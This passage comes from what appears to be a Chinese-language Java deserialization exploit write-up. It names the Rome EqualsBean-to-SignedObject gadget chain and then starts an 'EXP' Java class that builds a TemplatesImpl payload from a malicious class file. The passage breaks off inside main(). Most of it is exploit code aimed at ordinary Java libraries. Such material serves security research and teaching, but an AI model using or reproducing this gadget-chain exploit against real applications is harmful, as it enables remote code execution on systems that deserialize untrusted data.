 #### Rome(Equals)

利用链

```bash
Hashtable#readObject() -> EqualsBean#equals() -> EqualsBean.beanEquals() -> SignedObject#getObject()
```

[![](assets/1709112106-54a2529c151f7925d67158524f94fe34.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227195613-34c7ad7e-d567-1.png)

EXP

```bash
package SignedObject;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.security.*;
import java.util.HashMap;
import java.util.Hashtable;

public class Sign_RomeEqualsBean {
    public static void setFieldValue(Object obj,String fieldname,Object value)throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldname);
        field.setAccessible(true);
        field.set(obj,value);
    }

    public static void main(String[] args) throws Exception{
        byte[] payloads = Files.readAllBytes(Paths.get("D:\\Security-Testing\\Java-Sec\\Java-Sec-Payload\\target\\classes\\Evail_Class\\Calc_Ab.class"));
```